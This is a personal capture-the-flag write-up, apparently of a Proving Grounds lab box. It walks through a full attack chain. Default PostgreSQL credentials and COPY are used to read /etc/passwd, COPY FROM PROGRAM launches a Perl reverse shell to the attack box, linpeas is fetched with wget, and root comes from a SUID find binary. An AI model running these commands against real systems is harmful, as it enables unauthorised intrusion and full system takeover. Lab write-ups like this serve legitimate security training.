






Nmap scan revealed postgresql so I logged in from the attack machine using the default postgres creds:

CREATE TEMP TABLE yeet (INPUT TEXT);
COPY yeet from '/etc/passwd';
SELECT * FROM yeet;

Use strategy from above to read local.txt:

Use similar strategy to get shell on machine:
set up netcat listener on attackbox (this machine will only catch a listener on port 80 as the postgresql is expecting it there)
`nc -nlvp 80`

Test rce with a simple command:

Excellent. I tried to use a reverse python command with sockets, but that didn't work (or I just didn't know where to put quotes and such)

Also found perl on the system and found this guide: https://www.trenchesofit.com/2021/02/01/offensive-security-proving-grounds-nibbles-write-up-no-metasploit/ (couldn't copy and paste so I ended up viewing the page source, copying it, and then manually comparing to what was posted on the site that I couldn't copy)

After having already set up the table previously when testing with the 'which python' command, all that needed to be run was:
`COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.49.188:80");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};''';`

And then I also ran this to trigger the shell connect:
`SELECT * FROM cmd_exec;`

Resulting in a netcat shell being returned to my listener set up on port 80:

Use python to make shell better:
`python -c 'import pty;pty.spawn("/bin/bash")'`

Get linpeas.sh on the device:
(From attack box in directory with linpeas.sh)
`python3 -m http.server 80`
(From target)
`wget http://[attacker_ip]/linpeas.sh`

It found an SUID set on the find binary. Testing with:
`find . -exec whoami \;`

It shows root over and over again. Now time to figure out how to use it to get a root shell: https://gtfobins.github.io/gtfobins/find/

`find . -exec /bin/sh -p \; -quit`

Got root shell finally. Grabbed proof.txt from /root/ 
